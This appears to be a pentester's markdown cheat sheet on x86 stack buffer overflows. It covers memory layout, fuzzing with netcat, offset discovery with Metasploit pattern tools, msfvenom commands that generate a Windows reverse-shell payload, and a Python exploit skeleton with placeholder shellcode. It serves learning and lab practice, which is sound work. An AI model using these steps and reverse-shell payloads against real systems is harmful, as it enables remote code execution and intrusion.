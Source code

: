 # x86 Stack Buffer Overflow Steps    
Resources:      
https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst    
[TCM: Buffer Overflows Made Easy](https://www.youtube.com/watch?v=ncBblM920jw)     
[Vulnerable Functions](https://int0x33.medium.com/day-49-common-c-code-vulnerabilities-and-mitigations-7eded437ca4a)    
[Red Team Notes - x32 Stack Based Buffer Overflow](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/stack-based-buffer-overflow)    
Buffer overflow: memory corruption exploit.     

## Anatomy of Memory     
```
Higher memory addresses 
--- Kernel ---
--- Stack ---  
--- Heap ---
--- BSS --- 
--- Data ---
--- Text ---
Lower memory addresses  
```   
Stack: LIFO (last in, first out), memory addresses grow down, contains function values (stack frames) need for the program to function. Instruction Pointer: registers that store the next instruction to execute.     
Heap segment: memory the programmer can control. Can be allocated and used, grows smaller or larger as needed. The memory within the heap is managed by allocator and deallocator algorithims, reserve a region of memory in the heap for use / remove perms to allow that portion of memory to be reused for later reservations. Heap will grow or shrink depending on how much memory is reserved for use.        
Data and bss segments: store global and static program vars. Data segment: filled with initialized global and static vars, bss is filled with unintialized. writeable segments with a fixed size, allows global and static vars to persist.           
Text / code segment: a fixed size segment, where assembled machine language instructions of the program are located.
      
Stack before overflow:      
```
High memory address ("base of stack")
-- Main()'s stack frame -- 
-- Arguments --   
-- Return address -- 
-- EBP (base pointer for the current stack frame) -- 
-- Local variables -- 
Low memory address ("top of the stack" - ESP)   
```
Stack after overflow:    
```
High memory address  
-- Shellcode --   
-- ESP --  
-- &jmp esp -- 
-- Overflow -- 
Low memory address ("top of the stack")
```

Stack frame: EBP register (or frame pointer (FP) / local base (LB) pointer) is used to reference local function variables in the current stack frame. Each stack frame contains the parameters to the function, its local variables, and two pointers that are neccessary to put things back the way they were: the saved frame pointer (SFP) and the return address. The SFP is used to restore EBP to its previous value, and the return address is used to restore EIP to the next instruction found after the function call.     
EIP - points to the next instruction for the CPU to execute.     
EBP - points to the base of the current stack frame (used as a reference point).    
ESP - points to the "top" of the stack.       

## What You Need    
- A vulnerable executable.
- A debugger such as GDB/GEF or Immunity Debugger (OS / platform dependant).
- A testing enviroment with the same architechure as the target.   
- Helpful tools: MsfVenom for generating payloads, pwntools Python library.    

## General Stack Buffer Overflow Steps   
Buffer overflow: an attacker can overflow a memory buffer by writing data to it without the program using bound checking to limit this from happening. This can affect not only the buffer but adjacent memory. An attacker can sometimes get remote code execution or privilege escalation.       

1. Identify the architechure for the binary and any protections on it (NX, ASLR, etc). 
2. Identify a segmentation fault causing a program to crash by fuzzing a program.    
    python -c "print('A'*200)" | nc 127.0.0.1 10000    
3. Test the ability to overwrite EIP and control program execution.
    3a. Note EIP value after a crash using a debugger.     
4. Identify the amount of bytes needed to overflow the program and overwrite EIP (the offset).   
    4a. Use a pattern to calculate the offset by supplying it as input to the program and noting the value of EIP.     
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300   
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <value at EIP>
5. Note if the injected code is written onto the stack - if so EIP can force execution to ESP to then execute shellcode.    
6. Generate or write shellcode. If necessary, exclude common bad characters like \x00, \x0A, \x0D. Bad chars often corrupt the next byte after them so just take the first one in a sequence of 2.     
    msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f python    
7. Test the program for bad characters by creating a bytearray of chars from \x01 to \xff, injecting the characters and looking at the memory dump of the memory lcoation pointed to by EIP after the crash.       
All possible chars:     
    for i in {0..255}; do printf "\\\x%02x" $i; done; echo -e "\r"    
Generate a payload without bad chars:     
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=443 -f python -b 0x0a    
8. Control the overwrite - jump to a specific location and execute code there. One way to do this: find a 'jmp esp' instruction in the program that will ensure the shellcode on the stack will be executed and overwrite EIP with the memory address of this value.    
9. Insert padding (NOPs) as needed to ensure the exploit is more reliable (more room for error).

General buffer overflow exploit payload (this may need tweaking):      
Offset characters + return address (will overwrite EIP) + NOPs for padding + shellcode   

Common C vulnerable functions: strcpy() & stpcpy(), gets(), strcat() & strcmp(), sprintf().       

Exploit skeleton code:    
```
import socket, sys
#connect to a vulnerable server and send a payload - can also craft exploit using pwntools   
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("127.0.0.1", 10000))
# send A's
buf = b"A"*268      #multiple by the offset  
# overwrite EIP with string RETN
buf += b"RETN"
# shellcode
buf += b"SHELLCODE"
# send payload
sock.send(buf)
sock.close()
```   
